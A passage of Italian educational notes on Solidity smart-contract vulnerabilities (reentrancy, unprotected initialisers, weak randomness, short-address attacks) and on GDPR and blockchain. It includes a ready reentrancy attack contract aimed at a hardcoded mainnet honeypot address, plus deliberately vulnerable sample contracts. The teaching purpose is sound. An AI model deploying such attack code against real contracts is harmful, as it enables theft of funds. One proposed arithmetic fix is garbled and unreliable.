    m_numOwners = _owners.length + 1;
    m_owners[1] = uint(msg.sender);
    m_ownerIndex[uint(msg.sender)] = 1;
    for (uint i = 0; i < _owners.length; ++i)
    {
      m_owners[2 + i] = uint(_owners[i]);
      m_ownerIndex[uint(_owners[i])] = 2 + i;
    }
    m_required = _required;
  }
  ...
  // constructor - just pass on the owner array to the multiowned and
  // the limit to daylimit
  function initWallet(address[] _owners, uint _required, uint _daylimit) {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }
}
\end{lstlisting}
La funzione \texttt{initWallet()} viene chiamata nel costruttore è imposta l'owner, come si può vedere nella funzione \texttt{initMultiowned()}. Visto che queste funzioni sono state lasciate pubbliche, è possibile chiamarle su contratti già distribuiti, resettando la ownership con l'indirizzo dell'attaccante. A questo punto l'attaccante, essendo owner del contratto, può ritirare tutto il \texttt{balance} presente al suo interno.

\vspace{5mm}

Tutte le transazioni nella blockchain di Ethereum sono operazioni di tipo deterministico: ciò implica che ogni transazione che modifica lo stato dell'ecosistema di Ethereum lo fa in un modo calcolabile e per nulla imprevedibile. Non esiste infatti alcuna funzione \texttt{rand()} in Solidity, così come non esiste randomicità né entropia. Ottenere funzioni uniformemente distribuite in maniera decentralizzata rappresenta un problema che attualmente vede presentate molte proposte di implementazione, come \texttt{randDAO}, che utilizza una catena di hash. 

I primi contratti costruiti sulla piattaforma Ethereum erano basati sul gioco d'azzardo. Questo si basa su probabilità, per cui appare ovvio che implementare il gioco d'azzardo sulla blockchain diventa particolarmente difficile. Uno degli errori più fatti è stato utilizzare hash, timestamp o limite di gas, in quanto queste variabili vengono parzialmente controllate dai miners e non sono completamente casuali. Consideriamo ad esempio uno smart contract che funge da roulette, che restituisce un numero nero se l'hash del prossimo blocco termina con un numero pari, e rosso altrimenti. Un miner (o un pool di miner) potrebbe scommettere 1 milione di dollari sul nero, e non pubblicare il blocco computato finché l'hash non gli garantisce la vittoria. 

La soluzione sta nel portare tutto ciò che riguarda le funzioni non deterministiche fuori dalla blockchain: ciò si può fare tramite sistemi di \textit{commit-reveal} oppure tramite entità centralizzate, che fungono da oracoli. Le variabili dei blocchi non dovrebbero mai essere utilizzate come sorgente di casualità in quanto possono essere manipolate dai miners.

\vspace{5mm}

Uno dei benefici della computazione globale di Ethereum sta nell'abilità di riutilizzare il codice e iteragire con i contratti già distribuiti sulla rete. Questo implica che un gran numero di contratti scambiano messaggi con contratti esterni utilizzando chiamate appunto esterne. Questi messaggi potrebbero provenire da utenti maliziosi anche in maniera non esplicita.

In Solidity, ogni indirizzo può essere \textit{castato} a un contratto a prescindere dal tipo dell'oggetto presente a quell'indirizzo. Questo può essere ingannevole in quanto l'autore del contratto potrebbe voler nascondere del codice malizioso. Consideriamo un esempio di contratto che implementa il sistema di cifratura \textbf{Rot13}:
\begin{lstlisting}[language=Solidity]
//encryption contract
contract Rot13Encryption {
     
   event Result(string convertedString);
   
    //rot13 encrypt a string
    function rot13Encrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            //inline assembly to modify the string
            assembly {
                char := byte(0,char) // get the first byte
                if and(gt(char,0x6D), lt(char,0x7B)) // if the character is in [n,z], i.e. wrapping. 
                { char:= sub(0x60, sub(0x7A,char)) } // subtract from the ascii number a by the difference char is from z. 
                if iszero(eq(char, 0x20)) // ignore spaces
                {mstore8(add(add(text,0x20), mul(i,1)), add(char,13))} // add 13 to char. 
            }
        }
        emit Result(text);
    }
    
    // rot13 decrypt a string
    function rot13Decrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(text,0x20), mul(i,1)), sub(char,13))}
            }
        }
        emit Result(text);
    }
}
\end{lstlisting}
Questo codice prende in input una stringa (lettere dalla a alla z, senza validazione dell'input) e la cifra shiftando ogni carattere di 13 posizioni. Consideriamo ora il seguente contratto che utilizza questo codice per la cifratura:
\begin{lstlisting}[language=Solidity]
import "Rot13Encryption.sol";
// encrypt your top secret info
contract EncryptionContract {
    // library for encryption
    Rot13Encryption encryptionLibrary;
        
    // constructor - initialise the library
    constructor(Rot13Encryption _encryptionLibrary) {
        encryptionLibrary = _encryptionLibrary;
    }
    
    function encryptPrivateData(string privateInfo) {
        // potentially do some operations here
        encryptionLibrary.rot13Encrypt(privateInfo);
     }
 }
\end{lstlisting}
Il problema di questo contratto è che l'indirizzo di \texttt{encriptionLibrary} non è pubblico o costante. In più colui che distribuisce il contratto potrebbe aver immesso un indirizzo nel costruttore che in realtà punta a questo contratto:
\begin{lstlisting}[language=Solidity]
//encryption contract
contract Rot26Encryption {
     
   event Result(string convertedString);
   
    //rot13 encrypt a string
    function rot13Encrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            //inline assembly to modify the string
            assembly {
                char := byte(0,char) // get the first byte
                if and(gt(char,0x6D), lt(char,0x7B)) // if the character is in [n,z], i.e. wrapping. 
                { char:= sub(0x60, sub(0x7A,char)) } // subtract from the ascii number a by the difference char is from z. 
                if iszero(eq(char, 0x20)) // ignore spaces
                {mstore8(add(add(text,0x20), mul(i,1)), add(char,26))} // add 13 to char. 
            }
        }
        emit Result(text);
    }
    
    // rot13 decrypt a string
    function rot13Decrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(text,0x20), mul(i,1)), sub(char,26))}
            }
        }
        emit Result(text);
    }
}
\end{lstlisting}
che implementa la cifratura Rot26, ovvero non cifra proprio nulla. Il distributore potrebbe anche aver linkato il seguente contratto:
\begin{lstlisting}[language=Solidity]
contract Print{
    event Print(string text);
    
    function rot13Encrypt(string text) public {
        emit Print(text);
    }
 }
\end{lstlisting}
Se l'indirizzo di uno di questi contratti viene inviato al costruttore, la funzione \texttt{encryptPrivateData()} non fa altro che stampare i dati in chiaro, e questo può accadere ad esempio per mezzo dell'owner del contratto, che spesso può modificarne gli indirizzi. Ad esempio se il contratto fosse il seguente:
\begin{lstlisting}
contract Blank {
     event Print(string text);
     function () {
         emit Print("Here");
         //put malicious code here and it will run
     }
 }
\end{lstlisting}
allora l'istruzione \texttt{encryptionLibrary.rot13Encrypt()} avrebbe prodotto il testo \textit{"Here"}. In questo modo se un utente può alterare le librerie dei contratti, in pratica può spingere gli utenti inconsapevoli ad eseguire codice arbitrario.

Sono possibili una serie di tecniche che permettono di prevenire questi scenari. Una di queste è usare la parola chiave \texttt{new}, per essere sicuro del contratto che si utilizza:
\begin{lstlisting}
constructor() {
        encryptionLibrary = new Rot13Encryption();
    }
\end{lstlisting}
Un'altra soluzione è quella di inserire gli indirizzi dei contratti esplicitamente, se questi sono conosciuti. In generale, il codice che chiama contratti esterni dovrebbe essere sempre preso con le pinze. Quando si definiscono contratti esterni conviene spesso rendere l'indirizzo del contratto pubblico, in modo da poter essere esaminato dagli utenti che vogliono utilizzarlo. Se invece è privato, potrebbe essere un segno di un contratto malizioso. È importante anche utilizzare un meccanismo di voto o di time lock che permetta di stabilire quando il codice da eseguire viene cambiato, soprattutto in un ambiente decentralizzato come la blockchain.

\vspace{5mm}

Esistono anche contratti che sembrano buggati ma che in realtà sono fatti apposta per essere attaccati e fanno perdere ether a chi prova ad attaccarli. È il caso del contratto seguente:
\begin{lstlisting}[language=Solidity]
pragma solidity ^0.4.19;
contract Private_Bank
{
    mapping (address => uint) public balances;
    uint public MinDeposit = 1 ether;
    Log TransferLog;
    
    function Private_Bank(address _log)
    {
        TransferLog = Log(_log);
    }
    
    function Deposit()
    public
    payable
    {
        if(msg.value >= MinDeposit)
        {
            balances[msg.sender]+=msg.value;
            TransferLog.AddMessage(msg.sender,msg.value,"Deposit");
        }
    }
    
    function CashOut(uint _am)
    {
        if(_am<=balances[msg.sender])
        {
            if(msg.sender.call.value(_am)())
            {
                balances[msg.sender]-=_am;
                TransferLog.AddMessage(msg.sender,_am,"CashOut");
            }
        }
    }
    
    function() public payable{}    
    
}
contract Log 
{
    struct Message
    {
        address Sender;
        string  Data;
        uint Val;
        uint  Time;
    }
    
    Message[] public History;
    Message LastMsg;
    
    function AddMessage(address _adr,uint _val,string _data)
    public
    {
        LastMsg.Sender = _adr;
        LastMsg.Time = now;
        LastMsg.Val = _val;
        LastMsg.Data = _data;
        History.push(LastMsg);
    }
}
\end{lstlisting}
Una possibile soluzione sarebbe quella di attaccare il contratto con uno come il seguente, in modo da non far andare in loop il contratto e non finire tutto il proprio balance. 
\begin{lstlisting}[language=Solidity]
contract Owned {
  address owner;
  function Owned() {
    owner = msg.sender;
  }
  function kill() {
    if (msg.sender == owner) selfdestruct(owner);
  }
}

interface Target {
    function CashOut(uint _am) public;
    function Deposit() public payable;
}

contract TimeForHack is Owned 
{
    address target = 0x6af5d878a4bfb60e4cf57df316fbf5886f69185c;
    // address target = 0x95D34980095380851902ccd9A1Fb4C813C2cb639; // mainnet
    event Hacked(address indexed by, uint256 amount);
    event Called(address indexed by, uint256 amount);
    
    function () payable {
         Target t = Target(target);
        // let's hack.
        if (msg.gas < 200000) {
            return;
        }
        Hacked(target, target.balance);
        if (msg.value <= target.balance) {
            t.CashOut(msg.value);
        }    
    }
    
    function doIt() payable {
    
        Called(msg.sender, this.balance);
         Target t = Target(target);
         t.Deposit.value(msg.value)();
         t.CashOut(msg.value);   
    }
    
    function empty() {
        if (msg.sender == owner) {
            msg.sender.transfer(this.balance);
            
        }
    }
    
    function cashout( uint256 v) {
         Target t = Target(target);
         t.CashOut(v);   
    }
    
    function fund() payable {
         Target t = Target(target);
         t.Deposit.value(msg.value)();  
         require(this.balance > msg.value)
    }
    
    
}
\end{lstlisting}

Quando si passano i parametri ad uno smart contract, questi vengono cifrati secondo una specifica chiamata ABI (Application Binary Interface). Si possono inviare parametri cifrati anche di lunghezza minore di quella dichiarata: in questi casi la EVM aggiunge tutti 0 alla fine per raggiungere la lunghezza prevista. Tuttavia questo rappresenta un problema per applicazioni di terze parti che non validano l'input. Questo problema è stato utilizzato nello Short Address Attack all'interfaccia standard per lo scambio di token ERC20. La funzione di trasferimento di ERC20 è la seguente:
\begin{lstlisting} [language=Solidity]
function transfer(address to, uint tokens) public returns (bool success);
\end{lstlisting}
Finché vengono inviati indirizzi dello stesso ordine di grandezza di \texttt{address}, non si verificano problemi. Nel caso in cui gli indirizzi siano più piccoli, vengono aggiunti degli 0 alla fine e ciò compromette anche il valore del secondo parametro. La soluzione è quela di validare sempre l'input.

\vspace{5mm}

\texttt{Etherpot} era uno smart contract che rappresentava una lotteria, non molto diverso dal contratto \texttt{Lotto} visto nella sezione precedente. Una delle vulnerabilità di \texttt{Etherpot} era un utilizzo non corretto dei blocchi di hash, in quanto solo gli ultimi 256 blocchi di hash sono utilizzabili, cosa che è stata implementata male. Inoltre il contratto soffriva anche di valore non controllato di una chiamata, nella funzione \texttt{cash()}, riportata di seguito:
\begin{lstlisting}[language=Solidity]
...
  function cash(uint roundIndex, uint subpotIndex){ //line 80
        var subpotsCount = getSubpotsCount(roundIndex);
        if(subpotIndex>=subpotsCount)
            return;
        var decisionBlockNumber = getDecisionBlockNumber(roundIndex,subpotIndex);
        if(decisionBlockNumber>block.number)
            return;
        if(rounds[roundIndex].isCashed[subpotIndex])
            return;
        //Subpots can only be cashed once. This is to prevent double payouts
        var winner = calculateWinner(roundIndex,subpotIndex);    
        var subpot = getSubpot(roundIndex);
        winner.send(subpot);
        rounds[roundIndex].isCashed[subpotIndex] = true;
        //Mark the round as cashed
}
...
\end{lstlisting}
Quando viene effettuata la chiamata \texttt{winner.send(subpot)}, non ne viene controllato il valore di ritorno, e la riga successiva imposta un booleano indicando che al vincitore è stata inviata la vincita. Ovviamente potrebbe verificarsi una situazione in cui il trasferimento non va a buon fine (ad esempio a causa di gas insufficiente) ma comunque questo valore viene impostato in maniera errata. 

\vspace{5mm}

Alla data di questo documento (Solidity v0.4.24), non sono supportati numeri a virgola fissa o mobile. Questo vuol dire che la rappresentazione in floating point deve essere fatta tramite gli interi. Questo può portare a vulnerabilità ed errori se non implementato correttamente. Vediamo un contratto di esempio:
\begin{lstlisting}[language=Solidity]
contract FunWithNumbers {
    uint constant public tokensPerEth = 10; 
    uint constant public weiPerEth = 1e18;
    mapping(address => uint) public balances;
    function buyTokens() public payable {
        uint tokens = msg.value/weiPerEth*tokensPerEth; // convert wei to eth, then multiply by token rate
        balances[msg.sender] += tokens; 
    }
    
    function sellTokens(uint tokens) public {
        require(balances[msg.sender] >= tokens);
        uint eth = tokens/tokensPerEth; 
        balances[msg.sender] -= tokens;
        msg.sender.transfer(eth*weiPerEth); //
    }
}
\end{lstlisting}
Questo semplice contratto di acquisto/vendita di token ha dei problemi dovuti proprio nella rappresentazione di numeri con la virgola. Ad esempio, inviando un numero di token inferiore a 1 ether, la divisione darebbe 0, e quindi anche la moltiplicazione finale. Vendere 29 token risulterebbe in 2 ether. 

Una soluzione potrebbe essere quella di svolgere la divisione come \texttt{msg.sender/weiPerTokens}, e quindi il calcolo sarebbe \texttt{msg.value/weiPerEth*tokenPerEth}. Potrebbe essere utile utilizzare tipi a precisione maggiore come \texttt{uint256} per i calcoli, per poi tornare alla precisione iniziale una volta finiti i calcoli.

\vspace{5mm}

Gli indirizzi dei contratti sono deterministici, cioè possono essere calcolati prima di creare l'indirizzo. L'indirizzo di un contratto è dato da:
\begin{lstlisting}[language=Solidity]
keccak256(rlp.encode([<account_address>, <transaction_nonce>])
\end{lstlisting}
In pratica l'indirizzo di un contratto è dato dall'hash \texttt{keccak256} concatenato con il nonce della transazione dell'account. Quindi dato un indirizzo Ethereum, è possibile calcolare tutti gli indirizzi di contratto che questo indirizzo può generare. Questo singifica che è possibile inviare ether a indirizzi predeterminati e successivamente creare un contratto a quell'indirizzo il cui costruttore può inviare ether a chi lo chiama. Questo trucchetto può essere utilizzato per nascondere il proprio ether.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{lstlisting}[language=Solidity]

\end{lstlisting}
\section{Blockchain e GDPR}
Per quanto la blockchain dia forti
garanzie di sicurezza, non sono più
isolati gli episodi di hackeraggio ai
danni degli Exchange Coin-to-Coin
(scambio di criptovalute).
Ad eccezione di un hardware wallet, violabili mediante un accesso
fisico, le chiavi private per accedere ai wallet possono essere soggette
ad attacchi, soprattutto phishing, alla stregua delle altre password.
Il Regolamento Generale sulla
Protezione dei Dati (GPDR) è
un regolamento dell'Unione
europea in materia di
trattamento dei dati personali
e di privacy.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.9.png}
\end{figure}

Nel contesto della privacy e del GDPR, le blockchain presentano varie
sfide: Come garantire i diritti del titolare dei dati immessi nella catena,
fino al diritto di cancellazione se i dati sono immutabili? Chi risponde
del trattamento dei dati in una rete di registri replicati? Il trattamento
dei dati è tecnicamente solo quello che si conclude con la chiusura del
primo blocco o è continuo?
Circa l’adeguamento della blockchain al Regolamento UE 2016/679 o
GDPR, lo scoglio apparentemente insormontabile è garantire i diritti
dell’interessato, disciplinati al capo III, negli artt. 12 – 23. La peculiarità intrinseca della blockchain della non modificabilità e
cancellazione di garantire l'integrità dei dati e aumentare la fiducia
nella rete risulta essere in forte contrasto con requisiti legali come
il “diritto di rettifica ” e il “diritto all’oblio” sanciti nell’artt. 16 e 17.

Soluzioni al diritto di oblio potrebbero essere:
\begin{itemize}
    \item la crittografia dei dati personali e la successiva eliminazione delle
corrispettive chiavi, lasciando su blockchain solo i dati indecifrabili;
    \item mediante l’uso dei cosiddetti modelli di memoria “fuori catena”;
registrare su blockchain solo un “collegamento”, lasciando il dato
vero e proprio al di fuori del libro mastro;
    \item garantire il diritto all’oblio mediante una corretta anonimizzazione.
\end{itemize}

È in corso un dibattito sul fatto che i dati archiviati in una blockchain, come chiavi pubbliche e dati
transazionali, si qualifichino come dati personali ai fini del GDPR; se i dati personali che sono stati crittografati o sottoposti a hash si
qualificano ancora come dati personali.

Le blockchain sono un particolare tipo di database di sola aggiunta che
crescono continuamente man mano che vengono aggiunti nuovi dati,
che vengono replicati su molti computer diversi. Ciò pone problemi
circa la minimizzazione dei dati e limitazione delle finalità. Cosa si intende per "scopo" del trattamento dei dati personali nel
contesto della blockchain? Si include solo la transazione iniziale o
comprende anche il trattamento continuo dei dati personali (come
la sua memorizzazione e il suo utilizzo per consenso) una volta che
è stato messo in catena. In caso di controversie, quali leggi devono essere applicate e di chi è la
giurisdizione? In situazioni in cui non è possibile identificare l’entità di
elaborazione dei dati personali e il luogo in cui i dati vengono elaborati
(probabilmente ci sono tante di queste entità e luoghi quanti sono i
nodi di rete), è difficile individuare la giurisdizione cui dovrebbe
competere una eventuale valutazione legale del trattamento dei dati
(ossia, in parole semplici, la legge nazionale applicabile).

\vspace{5mm}

Il GDPR introduce il Data Protection Officer (DPO), che deve assistere
colui che li controlla o li gestisce al fine di verificare l’osservanza interna
al regolamento. In una Blockchain, chi è il responsabile del trattamento dei dati
personali? Nel GDPR, il responsabile del trattamento determina le
finalità e i mezzi del trattamento dei dati personali. Può esistere una
simile entità nel contesto di una Blockchain distribuita?

Il modello di governance decentralizzato di Blockchain e la molteplicità
degli attori coinvolti rendono più ostica la definizione dei ruoli.
\begin{itemize}
    \item I partecipanti, che scrivono sul canale e inviano dati alla convalida
dei miners, possono essere considerati i responsabili.
    \item Qualora un gruppo di partecipanti decida di attuare un
trattamento con uno scopo comune, il responsabile va identificato
tra loro. In caso contrario, tutti i partecipanti dovrebbero essere
considerati come contitolari del trattamento (ex art. 26 GDPR).
\end{itemize}
Sicuramente non possono essere ritenuti titolari i miner, in quanto il loro operato è circoscritto alla convalida delle
transazioni, senza avere voce in merito all’oggetto di queste
transazioni, non determinando né le finalità né i mezzi da attuare; tantomeno le persone fisiche che immettono dati personali nella blockchain, al
di fuori da un’attività professionale o commerciale (cioè quando
l’attività è esclusivamente personale).

Il responsabile del trattamento andrebbe ricercato tra gli sviluppatori degli Smart Contracts, in quanto trattano i dati
personali per conto del titolare, e i minatori, poiché eseguono le istruzioni del titolare quando
verificano che la transazione soddisfano i criteri tecnici.
Entrambi dovrebbero quindi definire, con il titolare del trattamento, un
contratto che specifichi gli obblighi di entrambe le parti e che incorpori
le disposizioni dell’articolo 28 del GDPR.

Per quanto riguarda l’ambito degli obblighi di Privacy by Design
(articolo 25), il titolare del trattamento deve pensare, in via
preliminare, alla pertinenza della scelta di questa tecnologia per
l’attuazione del suo trattamento.
Qualsiasi transazione sulla blockchain implica:
\begin{itemize}
    \item l’invio di una richiesta a tutti i minatori blockchain per la convalida
di una transazione (contenente potenzialmente dati personali);
    \item un aggiornamento della blockchain aggiungendo il nuovo blocco
nella catena di blocchi a tutti i partecipanti.
\end{itemize}
In aggiunta i partecipanti, possono essere ubicati in paesi al di fuori
dell’UE sollevando la questione della conformità con gli obblighi di
trasferimento extra UE (capo V GDPR).

Per quanto riguarda l’identificabilità, la blockchain ha il vantaggio che
ogni partecipante ha un identificativo costituito da una serie di
caratteri alfanumerici apparentemente casuali e non identificabili con
reali identità. Quanto ai dati aggiuntivi memorizzati sulla blockchain,
nel caso in cui si tratti di dati personali, essi dovrebbero essere
registrati preferibilmente in modalità crittografata.
È necessario determinare le finalità del trattamento e la valutazione
d’impatto (DPIA), al fine di identificare come perseguibile l’uso di
blockchain pubbliche, private, con o senza cifratura del contenuto dei
blocchi, così da dimostrare i rischi residui di una scelta tecnologica e la
loro accettabilità.
La blockchain non è una tecnologia ma è una classe di tecnologie e
l’esame di compatibilità con il GDPR va effettuato caso per caso.

Attualmente, è allo studio una duplice linea d’azione per risolvere i
problemi tra blockchain e GDPR:
\begin{itemize}
    \item Le istituzioni dovrebbero condurre un'attività di
orientamento regolatorio (una sorta di
interpretazione autentica) di alcuni principi del
GDPR per renderli applicabili alla tecnologia
blockchain.
    \item I fornitori di servizi blockchain potrebbero studiare
congiuntamente con le istituzioni dei codici di
condotta e sistemi di certificazione delle catene a
seconda dei settori di produzione nei quali la
tecnologia è applicata.
Ciò sarebbe condotto in maniera similare al Cloud
computing conduct code, ed è previsto dallo stesso
GDPR (artt. 40 e 42).
\end{itemize}

